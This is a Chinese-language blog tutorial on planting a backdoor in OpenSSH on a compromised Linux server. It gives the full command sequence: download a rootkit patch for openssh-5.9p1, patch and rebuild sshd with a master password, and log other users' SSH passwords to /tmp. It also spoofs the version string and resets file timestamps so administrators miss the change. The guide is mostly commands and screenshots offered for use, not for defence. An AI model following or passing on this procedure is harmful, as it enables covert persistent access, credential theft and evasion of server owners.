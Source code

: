 当我们在获得一台Linux服务器的 root 权限后，我们第一想做的就是如何维持这个权限，维持权限肯定想到的就是在目标服务器留下一个后门。但是留普通后门，肯定很容易被发现。我们今天要讲的就是留一个[SSH](https://so.csdn.net/so/search?q=SSH&spm=1001.2101.3001.7020)后门，是通过修改SSH源代码的方式来留一个万能的SSH密码。

**环境：**

![](https://img-blog.csdnimg.cn/20190718221501122.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

软件包准备：

*   [openssh-5.9p1.tar.gz](http://ifuryst.com/usr/uploads/data/openssh-5.9p1.tar.gz)           （正常的openssh包）
*   [openssh-5.9p1.patch.tar.gz](http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz)   (补丁包)

首先查看一下SSH的版本号，记录下来

```
ssh -V
```


![](https://img-blog.csdnimg.cn/20190719110639506.png)

安装依赖包：

```
yum -y install openssl openssl-devel pam-devel zlib zlib-devel
```


![](https://img-blog.csdnimg.cn/20190719142346129.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

重命名原来的ssh主程序和配置文件(作用是待会同步时间)

```
mv /etc/ssh/ssh_config   /etc/ssh/ssh_config.bank      
mv /etc/ssh/sshd_config  /etc/ssh/sshd_config.bank      
mv /usr/sbin/sshd        /usr/sbin/sshd.bank
```


![](https://img-blog.csdnimg.cn/20190719143107802.png)

 将软件包上传到根目录，并解压

```
tar -xzvf   openssh-5.9p1.patch.tar.gz      
tar -xzvf   openssh-5.9p1.tar.gz
```


![](https://img-blog.csdnimg.cn/2019071914324996.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

```
cp openssh-5.9p1.patch/sshbd5.9p1.diff  openssh-5.9p1  #移动补丁文件中的diff文件到正常ssh目录      
cd openssh-5.9p1                  #进入ssh正常目录      
patch < sshbd5.9p1.diff           #打补丁
```


![](https://img-blog.csdnimg.cn/20190719143448920.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

修改后门密码和版本信息

```
vim includes.h
```


SECRETPW 这里是万能密码，ILOG是别人用ssh登录该主机记录的日志目录，OLOG是该主机用ssh登录其他主机记录的日志目录 

![](https://img-blog.csdnimg.cn/20190719143728175.png)

```
vim version.h
```


将这里的版本号修改为刚开始使用ssh -V 查看的，避免被管理员发现 

![](https://img-blog.csdnimg.cn/20190719213301726.png)

重新编译安装

```
./configure --prefix=/usr  --sysconfdir=/etc/ssh  --with-pam  --with-kerberos5  && make && make install
```


![](https://img-blog.csdnimg.cn/20190719144126713.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

如果这里出现了这个错误，是因为没有安装gcc编译库等编译环境

```
yum -y install gcc gcc-c++ make  #安装编译环境
```


安装了编译库环境后，重新编译安装，如果看到以下就说明编译成功

![](https://img-blog.csdnimg.cn/20190719144443106.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

现在我们还要做的就是修改sshd程序和配置文件的时间，避免被管理员发现sshd程序发生了修改

```
touch -r ssh_config.bank ssh_config      
touch -r sshd_config.bank sshd_config      
touch -r /usr/sbin/sshd.bank /usr/sbin/sshd
```


![](https://img-blog.csdnimg.cn/20190719144842755.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

重启sshd服务

```
service sshd restart   #重启sshd服务      
ssh -V       #查看版本号
```


![](https://img-blog.csdnimg.cn/20190719145357631.png)

使用其他主机SSH登录该主机，使用万能密码 xie 看能否成功登录，如下登录成功！

![](https://img-blog.csdnimg.cn/20190719151623465.png)

在/tmp目录下会生成ilog和olog日志，当其他主机ssh登录该主机时(使用万能密码登录的不会记录)，会生成ilog日志，当该主机ssh登录其他主机时，会生成olog日志。

![](https://img-blog.csdnimg.cn/20190719150856768.png)

参考文章： [OpenSSH后门获取root密码及防范](https://www.cnblogs.com/croso/p/5280783.html)

                   [利用Openssh后门 劫持root密码](https://www.cnblogs.com/bigdevilking/p/9535427.html)

相关文章：[OpenSSH万能后门](https://blog.csdn.net/Aixixxx/article/details/104399536)
